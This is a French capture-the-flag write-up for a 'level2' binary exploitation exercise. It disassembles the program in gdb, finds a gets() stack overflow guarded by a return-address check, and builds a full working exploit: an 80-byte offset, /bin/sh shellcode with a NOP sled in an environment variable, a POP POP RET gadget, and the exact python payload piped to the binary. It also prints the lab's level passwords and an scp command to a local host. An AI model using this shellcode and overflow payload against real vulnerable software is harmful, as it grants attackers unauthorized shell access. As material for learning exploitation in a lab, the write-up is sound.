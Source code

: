 On se connecte sur le level0, ou se trouve un **binaire** <code>level2</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level2 -q
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
> disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```

En traduisant le programme (dans **source.c**) on se rend compte de l'utilisation de la fonction **gets** (vulnerable) mais aussi d' une restriction sur l'adresse de retour sur la stack:
<pre><code>if (0xb0000000 == (address & 0xb0000000))
</code></pre>
ou
```gdb
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
```

Nous allons donc faire un **buffer overflow** avec **shellcode**, et nous allons utliser un **POP POP RET** afin de bypasser la restriction.

On calcul l'**offset** qui va nous permettre de faire le **buffer overflow**:
```gdb
> gdb -q level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > b *0x080484f2 # Adresse juste apres le gets
(gdb) > run
Starting program: /home/user/level2/level2
AAAAAAAAAAAAA

Breakpoint 1, 0x080484f2 in p ()
(gdb) > i f
 Stack level 0, frame at 0xbffff680:
 eip = 0x80484f2 in p; saved eip 0x804854a
 called by frame at 0xbffff690
 Arglist at 0xbffff678, args:
 Locals at 0xbffff678, Previous frame's sp is 0xbffff680
 Saved registers:
  ebp at 0xbffff678, eip at 0xbffff67c
(gdb) > p 0xbffff67c - 0xbffff62c
$1 = 80
```
> OFFSET : 80
>
> SHELLCODE: <code>\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80</code>
>
>POP POP RET: <code>0x080485c7   edi ebp ret</code>

Nous commençons par créer une varibale d'environnement avec notre **SHELLCODE** précédé d'une NOPSLIDE (assez grande pour mieux la repérer).
<pre><code>export SHELLCODE=`python -c 'print "\x90"*100+"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
</code></pre>

On cherche par la suite l'adresse de notre **SHELLCODE** afin de trouver une adresse d'un des NOP qu'on utlisera pour le buffer overflow.
```gdb
> gdb -q level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > b * p
Breakpoint 1 at 0x80484d4
(gdb) > run
Starting program: /home/user/level2/level2

Breakpoint 1, 0x080484d4 in p ()
(gdb) > x/100xs environ
...
0xbffff866:    SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\061۰\006̀Sh/ttyh/dev\211\343\061\311f\271\022'\260\005̀1\300Ph//shh/bin\211\343PS\211ᙰ\v̀"
(gdb) > x/100sx 0xbffff866
0xbffff866:     0x53    0x48    0x45    0x4c    0x4c    0x43    0x4f    0x44
0xbffff86e:     0x45    0x3d    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff876:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff87e:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff886:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff88e:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff896:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff89e:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff8a6:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff8ae:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff8b6:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff8be:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff8c6:     0x90    0x90    0x90    0x90
```
On prend l'une des adresses qui ne contient que des **NOP**: <code>0xbffff8a6</code> et on génère notre commande pour le **buffer overflow** :
<pre><code>(python -c 'print "A" * 80 + "\xc7\x85\x04\x08" + "\xa6\xf8\xff\xbf"') | ./level2</code></pre>
> [OFFSET] = A * 80 [POP POP RET] = 0x080485c7 (little endian) [NOP ADDRESS] = Qui va mener au SHELLCODE
<pre><code>> cd ../level3 && cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
</code></pre>

For download :
<pre><code>scp -P4242 level2@192.168.1.78:level2 .</code></pre>
> Password : 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77


# Bonus

Ici un simple **ret** suffit, il suffit de prendre notre adresse de ret dans p :
<pre><code>0x0804853e
\x3e\x85\x04\x08 (little endian)
</code></pre>